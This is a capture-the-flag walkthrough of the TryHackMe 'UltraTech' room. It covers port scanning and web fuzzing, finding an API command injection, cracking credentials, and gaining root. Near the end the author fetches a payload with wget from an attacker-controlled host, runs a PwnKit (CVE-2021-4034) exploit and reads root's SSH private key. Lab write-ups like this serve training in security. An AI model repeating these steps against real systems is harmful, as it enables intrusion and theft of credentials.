 ## UltraTech
https://tryhackme.com/room/ultratech1

## Enum
```
nmap -Pn -sC -sV -sS -p- --open ip.thm -vv
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-13 22:32 JST
Scanning ip.thm (10.10.171.120) [65535 ports]
Discovered open port 21/tcp on 10.10.171.120
Discovered open port 22/tcp on 10.10.171.120
Discovered open port 8081/tcp on 10.10.171.120
Discovered open port 31331/tcp on 10.10.171.120
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE REASON         VERSION
21/tcp    open  ftp     syn-ack ttl 61 vsftpd 3.0.3
22/tcp    open  ssh     syn-ack ttl 61 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 dc:66:89:85:e7:05:c2:a5:da:7f:01:20:3a:13:fc:27 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDiFl7iswZsMnnI2RuX0ezMMVjUXFY1lJmZr3+H701ZA6nJUb2ymZyXusE/wuqL4BZ+x5gF2DLLRH7fdJkdebuuaMpQtQfEdsOMT+JakQgCDls38FH1jcrpGI3MY55eHcSilT/EsErmuvYv1s3Yvqds6xoxyvGgdptdqiaj4KFBNSDVneCSF/K7IQdbavM3Q7SgKchHJUHt6XO3gICmZmq8tSAdd2b2Ik/rYzpIiyMtfP3iWsyVgjR/q8oR08C2lFpPN8uSyIHkeH1py0aGl+V1E7j2yvVMIb4m3jGtLWH89iePTXmfLkin2feT6qAm7acdktZRJTjaJ8lEMFTHEijJ
|   256 c3:67:dd:26:fa:0c:56:92:f3:5b:a0:b3:8d:6d:20:ab (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLy2NkFfAZMY462Bf2wSIGzla3CDXwLNlGEpaCs1Uj55Psxk5Go/Y6Cw52NEljhi9fiXOOkIxpBEC8bOvEcNeNY=
|   256 11:9b:5a:d6:ff:2f:e4:49:d2:b5:17:36:0e:2f:1d:2f (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEipoohPz5HURhNfvE+WYz4Hc26k5ObMPnAQNoUDsge3
8081/tcp  open  http    syn-ack ttl 61 Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-cors: HEAD GET POST PUT DELETE PATCH
31331/tcp open  http    syn-ack ttl 61 Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 15C1B7515662078EF4B5C724E2927A96
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
| http-methods:
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
![image](https://user-images.githubusercontent.com/6504854/184535502-52353e76-69d8-4142-9794-6d5865e526f7.png)

![image](https://user-images.githubusercontent.com/6504854/184535521-098a953a-1dd0-420e-a9c0-57499681113c.png)

![image](https://user-images.githubusercontent.com/6504854/184535558-eb442110-9dc2-4946-95cd-7163cdaa5703.png)

![image](https://user-images.githubusercontent.com/6504854/184535532-a7a79ca8-b8e5-4adf-a47f-40d93c371e9b.png)
```
ffuf -u http://10.10.171.120:31331/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
```

```
________________________________________________

.hta                    [Status: 403, Size: 295, Words: 22, Lines: 12, Duration: 438ms]
.htaccess               [Status: 403, Size: 300, Words: 22, Lines: 12, Duration: 1918ms]
.htpasswd               [Status: 403, Size: 300, Words: 22, Lines: 12, Duration: 2927ms]
css                     [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 433ms]
favicon.ico             [Status: 200, Size: 15086, Words: 11, Lines: 7, Duration: 443ms]
images                  [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 435ms]
index.html              [Status: 200, Size: 6092, Words: 393, Lines: 140, Duration: 436ms]
javascript              [Status: 301, Size: 328, Words: 20, Lines: 10, Duration: 439ms]
js                      [Status: 301, Size: 320, Words: 20, Lines: 10, Duration: 454ms]
robots.txt              [Status: 200, Size: 53, Words: 4, Lines: 6, Duration: 445ms]
server-status           [Status: 403, Size: 304, Words: 22, Lines: 12, Duration: 431ms]
:: Progress: [4713/4713] :: Job [1/1] :: 86 req/sec :: Duration: [0:00:55] :: Errors: 0 ::
```
```
John McFamicom | r00t
Francois LeMytho | P4c0
Alvaro Squalo | Sq4l
ultratech@yopmail.com
```
🏴 I found some usernames.

```
curl http://ip.thm:31331/robots.txt
Allow: *
User-Agent: *
Sitemap: /utech_sitemap.txt
```
```
curl http://ip.thm:31331/utech_sitemap.txt
/
/index.html
/what.html
/partners.html
```
![image](https://user-images.githubusercontent.com/6504854/184535607-0c1485db-d5c8-497d-ad25-a51f11574887.png)
![image](https://user-images.githubusercontent.com/6504854/184535674-9b08f9e3-3c00-402e-abbc-5f1cc2178d3f.png)
![image](https://user-images.githubusercontent.com/6504854/184535753-d11c13be-7edb-4bcb-b020-51613d12109f.png)

![image](https://user-images.githubusercontent.com/6504854/184536065-f02ec936-1735-4916-9bd7-7c6b9c8362dc.png)
![image](https://user-images.githubusercontent.com/6504854/184536135-93346c27-e6d9-464e-993b-aa840c50c3b3.png)
![image](https://user-images.githubusercontent.com/6504854/184536195-17f730e8-3b5c-4de2-8546-ce61df41b5b2.png)

🏴 This API has OSCommand Injection, It took me a while to find the escape characters and I stucked. 

![image](https://user-images.githubusercontent.com/6504854/184536391-4c9014ec-9c74-435c-934d-d6ef31f457d9.png)

🏴 I consulted https://crackstation.net/

## Flag
```
ssh r00t@ip.thm
r00t@ip.thm's password:
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-46-generic x86_64)

r00t@ultratech-prod:~$ ls -la
total 28
drwxr-xr-x 4 r00t r00t 4096 Aug 14 10:48 .
drwxr-xr-x 5 root root 4096 Mar 22  2019 ..
-rw-r--r-- 1 r00t r00t  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 r00t r00t 3771 Apr  4  2018 .bashrc
drwx------ 2 r00t r00t 4096 Aug 14 10:48 .cache
drwx------ 3 r00t r00t 4096 Aug 14 10:48 .gnupg
-rw-r--r-- 1 r00t r00t  807 Apr  4  2018 .profile

r00t@ultratech-prod:~$ sudo -l
[sudo] password for r00t:
Sorry, user r00t may not run sudo on ultratech-prod.

r00t@ultratech-prod:~$ ls -la /usr/bin/pkexec
-rwsr-xr-x 1 root root 22520 Jan 15  2019 /usr/bin/pkexec

r00t@ultratech-prod:~$ wget http://10.10.10.10/1.tar
Connecting to 10.10.10.10:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 92160 (90K) [application/x-tar]
Saving to: ‘1.tar’

r00t@ultratech-prod:~$ tar -xvf 1.tar
./cve-2021-4034

r00t@ultratech-prod:~$ ./cve-2021-4034
# cat /root/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
****************************************************************
****************************************************************
-----END RSA PRIVATE KEY-----
```

Thank you for your time. Enjoy! 😄
